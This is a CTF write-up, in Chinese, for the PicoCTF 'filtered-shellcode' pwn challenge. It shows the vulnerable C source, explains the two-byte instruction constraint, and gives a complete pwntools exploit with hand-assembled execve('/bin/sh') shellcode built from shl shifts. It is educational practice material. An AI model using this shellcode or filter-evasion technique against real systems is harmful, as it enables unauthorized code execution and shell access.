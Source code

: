 ```yaml
---
title: PicoCTF - filtered-shellcode
tags: [PicoCTF, CTF, PWN]

category: "Security/Practice/PicoCTF/PWN"
---
```


# PicoCTF - filtered-shellcode

## Background
Shell Code
Reverse

## Source code
:::spoiler Source Code Got From Server After Get Shell
```cpp!
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#define MAX_LENGTH 1000

void execute(char *shellcode, size_t length) {
    if (!shellcode || !length) {
        exit(1);
    }
    size_t new_length = length * 2;
    char result[new_length + 1];

    int spot = 0;
    for (int i = 0; i < new_length; i++) {
        if ((i % 4) < 2) {
            result[i] = shellcode[spot++];
        } else {
            result[i] = '\x90';
        }
    }
    // result[new_length] = '\xcc';
    result[new_length] = '\xc3';

    // Execute code
    int (*code)() = (int(*)())result;
    code();
}

int main(int argc, char *argv[]) {
    setbuf(stdout, NULL);
    char buf[MAX_LENGTH];
    size_t length = 0;
    char c = '\0';

    printf("Give me code to run:\n");
    c = fgetc(stdin);
    while ((c != '\n') && (length < MAX_LENGTH)) {
        buf[length] = c;
        c = fgetc(stdin);
        length++;
    }
    if (length % 2) {
        buf[length] = '\x90';
        length++;
    }
    execute(buf, length);
    return 0;
}
```
:::

## Recon
這一題沒有很難，但我沒有解出來，主要是因為reverse看不懂，完了QAQ，IDA都亂翻，只能求助於[^pico_pwn_filtered_shellcode_wp]，其實很簡單，好像也沒有filter的成分在，如果限制只能用每次兩bytes寫shell code不算的話
1. 其實就兩個function，一個是main function，另外一個是execute function，execute function主要會每一個shell code中間插入兩個nop，然後用function pointer的方式執行，所以我們的目標是寫一個shell code script開server的shell
2. 重點是shell code的instruction只能用2 bytes的instruction，所以沒辦法用類似`mov eax, 0x6e69622f`的這種方式，會GG，原因出自於execute function的for loop，他會把我們寫的shell code用2 bytes的方式切開，然後中間塞兩個nop(也就是兩個\x90，也是兩個bytes)，所以這其實就是限制我們只能用2 bytes寫shell code
    ```cpp!
    if ((i % 4) < 2) {result[i] = shellcode[spot++];}
    else {result[i] = '\x90';}
    ```
4. 所以不能隨便用exploit db上找到的shell code複製貼上，或是用以下payload，必須要善用`shl`，只要shl 16次(也就是2 bytes)就可以同時方式0x6e69622f，效果和`mov eax, 0x6e69622f`一樣
    ```asm!
    payload = asm("""
        mov eax, 0x6e69622f
        push eax
        mov eax, 0x0068732f
        push eax
        xor eax, eax
        xor ebx, ebx
        xor ecx, ecx
        xor edx, edx
        mov eax, 0xb
        lea ebx, DWORD PTR [esp]
        int 0x80
    """)
    ```

## Exploit - Write Properly Shell Code
```python!
from pwn import *

r = process('./fun')
# r = remote('mercury.picoctf.net', 35338)
r.recvline()

payload = asm("""
    /*Put the syscall number of execve in eax*/
    xor eax, eax
    mov al, 0xb
    
    /*Put zero in ecx and edx*/
    xor ecx, ecx
    xor edx, edx
    
    /*Push "/sh\x00" on the stack*/
    xor ebx, ebx
    mov bl, 0x68
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    mov bh, 0x73
    mov bl, 0x2f
    push ebx
    nop
    
    /*Push "/bin" on the stack*/
    mov bh, 0x6e
    mov bl, 0x69
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    mov bh, 0x62
    mov bl, 0x2f
    push ebx
    nop
              
    /*Move the esp (that points to "/bin/sh\x00") in ebx*/
    mov ebx, esp/*Syscall*/
    int 0x80
""")
r.sendline(payload)

r.interactive()
```

## Reference
[^pico_pwn_filtered_shellcode_wp]:[PicoCTF - Filtered Shellcode [Pwn]](https://cyb3rwhitesnake.medium.com/picoctf-filtered-shellcode-pwn-3d69010376df)
